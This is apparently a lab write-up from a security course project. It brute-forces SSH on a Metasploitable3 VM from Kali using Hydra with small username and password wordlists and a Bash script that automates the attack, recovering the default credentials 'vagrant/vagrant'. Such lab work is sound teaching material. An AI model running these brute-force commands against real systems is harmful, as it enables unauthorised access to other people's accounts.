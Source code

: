 # Phase #1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

- Phase 1.1: Brute-force attack using a wordlist (Hydra)
- Phase 1.2: Bash script with Hydra to automate the process

## Environment Setup

- Attacker Machine: Kali Linux

  Hostname: kali

  Host-Only IP Address: 192.168.56.104

  NAT IP Address: 10.0.2.15

  Username: kali

- Victim Machine: Metasploitable3

  Hostname: metasploitable3

  Host-Only IP Address: 192.168.56.103

  NAT IP Address: 10.0.2.2

  Username: vagrant

  Password: vagrant

## Targeted Service

- **Service:** SSH
- **Port:** 22
- **Vulnerability Type:** Weak/default credentials
- **Goal:** Compromise SSH access through brute-force login

## Phase 1.1 – Hydra Brute-Force Attack Using Wordlists

### 1. Connectivity Check

Confirmed Kali can reach Metasploitable3 via ping:

```bash
ping 192.168.56.103
```

[](image-10.png)

### 2. Created Username and Password Lists

**user.txt**

```
msfadmin
user
postgres
vagrant
```

[](image-8.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

[](image-9.png)

### 3. Ran Hydra Using Both Files

Command used:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

Result:

- Hydra successfully found the credentials:
  - **Username:** `vagrant`
  - **Password:** `vagrant`
    [](image-11.png)

## Phase 1.2 – Custom Scripted Attack (Hydra + Bash)

### 1. Created Bash Script

**ssh_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

[](image-7.png)

### 2. Ran the Script

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

Output confirmed the attack was successful with valid credentials found:

- **Username:** `vagrant`
- **Password:** `vagrant`
  [](image-5.png)

## Conclusion

The SSH service on Metasploitable3 was successfully compromised using Hydra with both a custom wordlist and a Bash script. This confirms the service’s vulnerability to brute-force attacks due to the use of default credentials. The machine is now ready for defensive countermeasures.
